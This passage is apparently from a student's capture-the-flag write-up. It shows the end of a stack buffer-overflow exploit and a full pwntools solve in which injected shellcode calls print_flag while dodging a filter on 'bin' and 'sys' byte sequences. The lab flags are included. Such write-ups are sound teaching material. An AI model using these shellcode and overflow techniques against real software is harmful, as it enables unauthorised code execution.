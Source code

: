 ```python

amount_of_filler = 0x38 - len(s_instr) # buf is 0x38 bytes; fill in gap between our assembly and the return addr
filler = b"A" * amount_of_filler

p.sendline(s_instr + filler + p64(buf_addr))
p.interactive()
```

**Flag:**
flag{th4t_buff3r_w4s_th3_p3rf3ct_pl4c3_t0_wr1t3_y0ur_sh3llc0de!_4cb1c2250ce55e82}


### 🟢 assembly (50)
Solve:
Use `readelf` to find that this binary is no-PIE. All addresses seen on Binja are absolute. 
Head to Binja to scope out the program. This program accepts user input into a buffer that is writeable and executable. Besides main(), there's a function called print_flag(). As long as validate(buffer, number of bytes read) does not equal zero, the code at the buffer will be called. This happens as long as no 0x62-0x69-0x6e nor 0x73-0x79-0x73 byte sequence appears anywhere in the buffer. 

Our strategy is to enter assembly code that moves the address of print_flag into a register, say, rax, and run call rax. Write a pwntools script to do so. At first it won't work. Use gdb to step through the code where it crashes. Inspect the rsp register to realize that it's not 16-bit aligned. We add one more line to the assembly code, which subtracts 8 from rsp to align it, such that `call` can execute. Print out the raw bytes of our assembly to ensure it does not contain the two illegal byte sequences, which prevents buffer from being run. 

Solver's Script:
```python
from pwn import *
context.log_level="DEBUG"
context.terminal = ["tmux","splitw","-f","-h"]
context.arch="amd64"  # specify 64-bit architecture so asm does not throw error of "ambiguous operand" when assembling

p = remote("offsec-chalbroker.osiris.cyber.nyu.edu",1294)
p.recvuntil("23): ".encode())
p.sendline(b"hw3172")
p.recvuntil(b'flag!\n')

# Assembly shellcode**
a = asm('''
mov rax, 0x40143f**
sub rsp, 8
call rax
''')

p.sendline(a)
p.interactive()
```

flag{l0w_l3v3l_pr0gr4mm1ng_l1k3_4_pr0!_957bbfe3b20f6d11}

